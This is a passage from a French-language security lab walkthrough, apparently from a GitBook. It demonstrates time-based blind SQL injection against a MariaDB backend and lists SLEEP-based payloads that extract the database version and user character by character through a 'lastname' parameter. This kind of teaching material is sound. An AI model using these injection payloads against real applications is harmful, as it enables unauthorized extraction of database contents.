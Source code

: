 Si la condition est vraie, aucun délai n'est appliqué. Sinon, un délai de 5 secondes est ajouté.

`IF` : Exécute une expression conditionnelle et retourner des résultats différents en fonction de la condition évaluée.

`ORD` : Retourne le code ASCII du premier caractère d'une chaîne de caractères.

`SUBSTRING` : Extrait une sous-chaîne.

{% hint style="info" %}
Ne pas oublier d'ajouter une chaîne de caractères, ici simplement "a", en tant que nom de table.
{% endhint %}

La console de développement du navigateur est suffisante pour visualiser le temps de réponse de la requête :&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Récupération de la version de MySQL :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(VERSION(),1,1))=ORD('1'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(VERSION(),2,1))=ORD('0'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(VERSION(),3,1))=ORD('.'),0,5))))a)
```

La version de la base de données est "10.11.6-MariaDB".

Une solution plus rapide permettant d'identifier le type de base de données peut être la suivante :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(VERSION() LIKE '%MariaDB%',0,5))))a)
```

Récupération de l'utilisateur MySQL :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(USER(),1,1))=ORD('s'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(USER(),2,1))=ORD('q'),0,5))))a)
```
